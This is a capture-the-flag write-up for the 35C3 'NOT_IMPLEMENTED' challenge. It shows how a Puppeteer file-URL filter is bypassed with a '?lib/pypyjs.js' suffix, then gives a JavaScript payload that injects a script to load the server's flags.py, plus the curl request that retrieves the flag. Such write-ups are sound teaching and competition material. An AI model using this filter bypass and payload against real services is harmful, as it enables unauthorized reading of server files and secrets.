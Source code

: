 # Challenge NOT_IMPLEMENTED

500 Points

## Challenge

NOT_IMPLEMENTED was not implemented nor intended. Capture it and profit.

http://35.207.132.47

Difficulty estimate: Hard++

Good coders should learn one new language every year.

InfoSec folks are even used to learn one new language for every new problem they face (YMMV).

If you have not picked up a new challenge in 2018, you're in for a treat.

We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.

Some cool Projects can be created in Wee, like: this, this and that.

Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.

Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).

We even added new features to this better server, like server-side Wee evaluation!

To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

Hints:
- Once you dug through every layer, you have reached the core. From there you may chose any direction and move anywhere.



## Solution

The only place in the server.py where the NOT_IMPLEMENTED is referenced is in the following request:

```
@app.route("/pyserver/flags.py", methods=["GET"])
def server_flags():
    return Response("""
DB_SECRET = "35C3_???"
DECRYPTED = "35C3_???"
DEV_NULL =  "35C3_???"
LOCALHOST = "35C3_???"
LOGGED_IN = "35C3_???"
NOT_IMPLEMENTED = "35C3_???"
    """, mimetype='text/x-python')
```

But the flag "NOT_IMPLEMENTED" is not imported into the server.py, only the other flags:

```
from flags import DB_SECRET, DECRYPTED, DEV_NULL, LOCALHOST, LOGGED_IN
```

So we need to read the file flags.py from the server. Luckily, the weeterpreter.ts allow us to execute javascript code in a Puppeteer environment. The environment is configurated to not load files except the ones that pass the following check:

```
page.on('request', r=> (r.url().startsWith("file://") && (
        r.url().endsWith("weelang/pypyjs.html") ||
        r.url().endsWith("lib/FunctionPromise.js") ||
        r.url().endsWith("lib/pypyjs.js") ||
        r.url().endsWith("lib/pypyjs.vm.js") ||
        r.url().endsWith("lib/pypyjs.vm.js.zmem")
    ) ? r.continue() : r.abort() && console.log("blocked", r.url()))
)
```

This check is not really save, since we can request a file any file and just append ?lib/pypyjs.js to the file and pass the check.

After some tries, it was possible for us to load the flags.py as javascript code (luckily for us the python code to define the flags is also valid javascript code). But it seems like our additional code gets executed before the flag.py could load and NOT_IMPLEMENTED as always not defined.

But it seems like the puppeteer browser is only created once per request, so we could execute multiple evals and wait a little between them. This gives puppeteer time to load flags.py. After some try-and-error this is a successfull payload:

```
alert(
  eval('
    inject = document.createElement(`script`);
    inject.src=`../pyserver/flags.py?lib/pypyjs.js`;
    document.head.append(inject);
  ')
)
eval('
  function sleepFor( sleepDuration ){
    var now = new Date().getTime();
    while(new Date().getTime() < now + sleepDuration){}
  }
  sleepFor(1000);
')
alert(eval('NOT_IMPLEMENTED'))
```

The flags.py file is loaded first as external javascript. Then we busy wait for 1 second to make sure the file was loaded. After that we can simply "alert" the flag.

Final execution:
```
root@blackbox:# curl -X POST -d @payload.txt "http://35.207.132.47/wee/run"
{"code":"  [removed for readability]","result":"undefined\n35C3_I_AM_TOO_LAZY_TO_BUILD_THIS_JUST_TAKE_THE_FLAG_JEEZ\n"}
```

Flag: 35C3_I_AM_TOO_LAZY_TO_BUILD_THIS_JUST_TAKE_THE_FLAG_JEEZ

Funny sidenote: The exploit in this challenge we could possible also get all other flags that are saved in flags.py (challenges that are based of paperbots) :trophy:
